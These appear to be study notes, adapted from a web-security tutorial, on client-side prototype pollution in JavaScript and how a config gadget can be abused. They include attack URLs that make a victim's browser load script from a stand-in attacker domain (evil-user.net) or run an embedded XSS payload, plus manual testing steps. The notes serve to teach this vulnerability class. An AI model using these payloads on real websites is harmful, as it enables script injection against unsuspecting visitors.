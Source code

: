 A simplified example may look something like this:
`let transport_url = config.transport_url || defaults.transport_url;`

Now imagine the library code uses this `transport_url` to add a script reference to the page:
```
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

If the website's developers haven't set a `transport_url` property on their `config` object:
- this is a potential gadget. 
- In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property:
  =>
	-  this will be inherited by the `config` object 
	- and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example:
- the attacker would simply have to 
	- induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:
	  `https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

By providing a `data:` URL, 
an attacker could also directly embed an XSS payload within the query string as follows:
`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`

Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix


## Client-side prototype pollution vulnerabilities
### Finding client-side prototype pollution sources manually
Finding prototype pollution sources manually:
- is largely a case of trial and error. 

In short, you need to:
- try different ways of adding an arbitrary property to `Object.prototype` 
	- until you find a source that works.

When testing for client-side vulnerabilities, this involves the following high-level steps:
1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. 
   For example:
   `vulnerable-website.com/?__proto__[foo]=bar`
   
2. In your browser console, inspect `Object.prototype` to see if you have successfully polluted it with your arbitrary property:
  
```
Object.prototype.foo
// "bar" indicates that you have successfully polluted the prototype
// undefined indicates that the attack was not successful
```
